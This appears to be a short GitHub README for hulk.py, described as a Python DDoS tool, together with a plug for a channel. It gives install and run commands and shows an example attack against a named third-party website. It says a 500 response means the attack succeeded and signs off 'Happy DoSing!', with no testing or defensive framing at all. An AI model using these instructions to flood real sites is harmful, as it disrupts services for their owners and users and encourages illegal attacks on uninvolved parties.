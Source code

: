 Subscribe our channel FemurTech
Link:- http://www.tinyurl.com/femurtech

This contains a file named hulk.py
Hulk.py is one of the best DDoS tools which is written in python.
Installation commands:-
pkg install python2
git clone "link"
chmod +x hulk.py

Usage:- 
python2 hulk.py "link"
Example:- python2 hulk.py http://www.kalkaeducationalsociety.com
If the result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------
